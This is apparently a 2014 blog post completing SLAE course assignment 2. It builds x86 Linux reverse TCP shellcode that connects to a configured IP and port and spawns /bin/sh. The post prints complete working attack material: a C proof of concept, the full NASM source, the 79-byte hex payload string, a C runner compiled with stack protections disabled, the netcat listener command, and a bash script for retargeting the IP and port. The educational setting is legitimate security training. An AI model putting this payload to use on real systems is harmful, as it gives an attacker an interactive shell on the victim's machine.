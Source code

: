 ```yaml
---
comments: true
date: 2014-04-04
layout: blog
title: 'SLAE Assignment 2: Reverse Bind TCP Shellcode'
summary: '2nd assignment of the SLAE'
category: blog
image: /images/header_images/slaelogo.png
tags: [asm-x86,nasm,slae]
---
```


This is the second of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Create a shellcode that reverse connect to a configured ip and port;
	
  2. The shellcode must execute /bin/sh on successful connection;
	
  3. IP and port number should be easily configurables

The difference between this assignment and the [previous one](http://www.paolostivanin.com/blog/2014/04/03/slae-assignment-1-bind-tcp-shellcode/) is that in the first assignment the shellcode "is a server" so we connect to it using netcat and then a shell is executed and "bound" to the **client terminal** while in this one the shellcode "is a client" so we need netcat running in listen mode on the configured ip and port and after a successful connection a shell **is bound to the server terminal**.

First of all i made a proof of concept of a program that connect to a configured ip (192.168.1.167) and port (7500) and execute /bin/sh on successful connection. I used dup2 to makes 0, 1 and 2 (stdin, stdout and stderr) be the copy of fd.
    
	#define STDIN 0
	#define STDOUT 1
	#define STDERR 2

	int main(void){
		int fd;
		struct sockaddr_in server_addr;
		char *argv[] = { "/bin/sh", NULL };

		server_addr.sin_family = AF_INET;
		server_addr.sin_port = htons(7500);
		server_addr.sin_addr.s_addr = inet_addr("192.168.1.167");

		fd = socket(AF_INET, SOCK_STREAM, 0);

		connect(fd, (struct sockaddr *)&server_addr, 16);

		//dup2 (0,1,2) (client will be connected to stdin, stdout and stderr)
		dup2(fd, STDIN);
		dup2(fd, STDOUT);
		dup2(fd, STDERR);

		execve(argv[0], &argv[0], NULL);

		return 0;
	}

As you can see in the above PoC, in our shellcode we'll need these syscall:

  1. two `sys_socketcall(int call, unsigned long *args)` where int call will be `SYS_SOCKET` and `SYS_CONNECT` according to `/usr/include/linux/net.h`;
	
  2. three `sys_dup2(int oldfd, int newfd)`;
	
  3. one `sys_execve(char *filename, char *argv[], char *envp[])` where both `*argv[]` and `*envp[]` must be null terminated;

Below there is the complete shellcode:

	;Description:	Assignment #2 (Reverse_Shell_Bind_TCP, 79 bytes)
	;Shellcode:		\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x43\x68\xc0\xa8\x01\xa7\x66\x68\x1d\x4c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf3\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80
	;Author: 		Paolo Stivanin <https://github.com/polslinux>
	;SLAE ID:		526

	global _start
	section .text
	_start:
		;socket(): sys_socketcall(int call, unsigned long *args)
		;eax -> sys_socketcall
		;ebx -> SYS_{SOCKET(1),BIND(2),CONNECT(3),LISTEN(4),ACCEPT(5),...}
		;ecx -> args(AF_INET{/usr/include/bits/socket.h -> 2}, SOCK_STREAM{/usr/include/bits/socket_type.h -> 1}, 0)
		xor edx,edx
		xor ebx,ebx
		push BYTE 0x66 	;sys_socketcall
		pop eax
		inc ebx			;SYS_SOCKET
		push edx		;0
		push BYTE 1 	;SOCK_STREAM
		push BYTE 2		;AF_INET
		mov ecx,esp
		int 0x80
		xchg esi,eax

		;connect(): sys_socketcall(int call, unsigned long *args)
		;eax -> sys_socketcall
		;ebx -> SYS_CONNECT
		;ecx -> args(sockfd{esi}, {sa_family{2},sin_port{7500},sin_address{192.168.1.167}}, 16)
		mov BYTE al,0x66
		inc ebx
		inc ebx					;SYS_CONNECT
		push DWORD 0xa701a8c0	;192.168.1.167
		push WORD 0x4c1d		;port 7500
		push WORD 2				;AF_INET
		mov ecx,esp
		push BYTE 16
		push ecx
		push esi
		mov ecx,esp
		int 0x80

		;dup2 sys_dup2(oldfd, newfd{0[stdin],1[stdout],2[stderr]})
		mov ebx,esi
		push BYTE 2
		pop ecx
		lp:	mov BYTE al,0x3f
		int 0x80
		dec ecx
		jns lp			;SF=0 positive, SF=1 negative. JNS (jump-if-not-sign) will loop while SF=0. When SF is set we reach a negative value so the loop stops.		

		;execve /bin/sh
		mov BYTE al,11
		push edx
		push 0x68732f2f
		push 0x6e69622f
		mov ebx,esp
		push edx
		mov edx,esp
		push ebx
		mov ecx,esp
		int 0x80

I also used [libemu](http://libemu.carnivore.it/) and dot to produce a graph of the execution flow of the shellcode:

[![graph_assign2]({{ site.baseurl }}/images/2014/04/graph_assign2-601x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign2.png)

To assemble, link and get the hex shellcode I used the[ same script of Assignment 1](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/alg-shell.sh).

Before executing the program the C source file must be updated with the newest shellcode:
   
	/* Template for running shellcode
	* Author: Paolo Stivanin <https://github.com/polslinux>
	* SLAE Student ID: 526
	*/

	#include <stdio.h>
	#include <string.h>

	unsigned char shellcode[] = \
	"\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x43\x68\xc0\xa8\x01\xa7\x66\x68\x1d\x4c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf3\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80";

	int main(void){
		printf("%zu\n", strlen(shellcode));
		int (*ret)() = (int(*)())shellcode;
		ret();
		return 0;
	}

Now it's time to compile the file with gcc -fno-stack-protector -z execstack main.c -o Reverse_Shell_Bind_TCP (or with [this](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/compile_gcc.sh) script) and then:

  1. open a terminal and type nc -v -l -p 7500
	
  2. execute Reverse_Shell_Bind_TCP

**[![ass2]({{ site.baseurl }}/images/2014/04/ass2-1024x575.png)]({{ site.baseurl }}/images/2014/04/ass2.png)**

The last point of this assignment ask to provide an easily way to configure the ip address and the port number. To accomplish this request I developed this small script:

	#!/bin/bash

	#Description:	Assignment #2 (Reverse_Shell_Bind_TCP, configure ip and port)
	#Author: 		Paolo Stivanin <https://github.com/polslinux>
	#SLAE ID:		526

	if [ -z "$1" ]; then
		echo "Usage: $0 <elf-file>"
		exit -1
	fi

	oldip=$(od -t x1 $1|grep -E -o "43 68.{0,12}"|sed 's/\ //g'|sed 's/^.\{4\}//g')
	hexoldip=$(printf '%s' $oldip | sed 's/../&\\x/g' | sed 's/\(\)/&\\x/' | sed 's/..$//')

	oldport=$(od -t x1 $1|grep -o -P "66 68.{6}"|sed 's/\(......\)//g'|sed 's/\ //g')
	hexoldport=$(printf '%s' $oldport | sed 's/\(..\)/&\\x/' | sed 's/\(\)/&\\x/')

	echo "[?] Write IP in dotted format (eg 192.168.1.167): "
	read dotip
	hexip=$(printf '%02x' $(echo ${dotip//./ }))

	echo "[?] Write port number: "
	read port
	hexport=$(printf '%x' $port)

	echo "[+] HEX code of choosed IP: $hexip"
	echo "[+] HEX code of choosed port: $hexport"

	echo "[+] Updating $1 elf..."
	newport=$(printf '%s' $hexport | sed 's/\(..\)/&\\x/' | sed 's/\(\)/&\\x/')
	sed -i "s/\x66\x68$hexoldport/\x66\x68$newport/g" $1
	newip=$(printf '%s' $hexip | sed 's/../&\\x/g' | sed 's/\(\)/&\\x/' | sed 's/..$//')
	sed -i "s/\x43\x68$hexoldip/\x43\x68$newip/g" $1

	echo "[+] All done :)"

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)


**Student ID: SLAE-526**
